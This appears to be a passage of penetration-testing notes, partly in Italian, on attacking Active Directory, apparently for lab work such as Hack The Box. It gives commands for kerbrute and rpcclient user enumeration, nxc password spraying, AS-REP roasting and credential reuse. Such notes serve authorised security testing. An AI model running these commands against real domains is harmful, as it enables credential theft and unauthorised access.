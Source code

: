 ```bash
kerbrute userenum --dc $IP -d domain.com /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

kerbrute userenum --dc $IP -d domain.com users.txt -o valid_ad_users
```

- **rpcclient**

```bash
rpcclient -U '' -N <ip>
	enumdomusers
	querydispinfo
```

## Got Usernames

**Repeat if any credentials are discovered!**

- **Bruteforce usernames as password**

```bash
nxc smb <ip> -u users.txt -p users.txt --continue-on-succes --no-bruteforce
nxc smb <ip> -u users.txt -p users.txt --continue-on-success 
```

- Provare anche con **winrm**, **rdp** e con il flag `--local-auth`  

- **Asreproasting**

```bash
for user in $(cat users.txt); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

nxc ldap <ip> -u users.txt -p '' --asreproast output.txt
```

- **Kerbrute**

```bash
kerbrute bruteuser -d domain.com passwords.txt username
```

## Got Credentials

**Repeat if any credentials are discovered!**

 - After getting credentials always enumerate smb shares, ldap, ftp, etc again with the newly gained credentials. Look for description of users in ldap as you might discover credentials for a higher privileged user

**ncx**

```bash
# Get Other Users
nxc smb <ip> -u 'username' -p 'password' --users
nxc smb <ip> -u 'username' -p 'password' --users > nxc_users.txt
cat nxc_users.txt | awk '{print $5}' > u.txt

nxc ldap <ip> -u 'username' -p 'password' --query "(objectClass=*)" "*"

# Reuse password on others users
nxc smb <ip> -u users.txt -p passwords.txt  --continue-on-success
```
